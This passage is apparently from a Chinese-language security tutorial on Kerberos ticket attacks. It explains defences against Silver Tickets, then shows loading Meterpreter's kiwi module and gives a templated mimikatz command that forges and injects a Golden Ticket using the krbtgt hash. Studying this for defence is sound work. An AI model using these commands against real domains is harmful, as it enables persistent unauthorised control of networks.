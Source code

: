 <video src="https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-30/kerberos_stgt.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>

### 白银票据(Silver Tickets)防御

* 1.尽量保证服务器凭证不被窃取

* 2.开启PAC (Privileged Attribute Certificate) 特权属性证书保护 功能，PAC主要是规定服务器将票据发送给kerberos服务，由 kerberos服务验证票据是否有效。

开启方式:

将注册表中
```
HKEY_LOCAL_MACHINE\SYSTEM \ CurrentControlSet\Control\Lsa\Kerberos\Parameters
``` 
中的`ValidateKdcPacSignature`设置为1。


### 黄金票据(Golden Tickets)

黄金票据特点:

* 1.需要与DC通信 
* 2.需要krbtgt用户的hash

**PS:这里的krbtgt hash就是之前讲的KDC Hash**

### 黄金票据(Golden Tickets)-MSF kiwi

使用meterpreter中的kiwi模块：

```
load kiwi
```
创建票据：

![0x08.png](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-30/0x08.png)

注入到内存：

![0x09.png](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-30/0x09.png)


使用wmic在目标服务器上创建一个进程：

![0x010.png](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-30/0x10.png)

### 黄金票据(Golden Tickets) - 伪造

伪造票据:

```
mimikatz “kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```
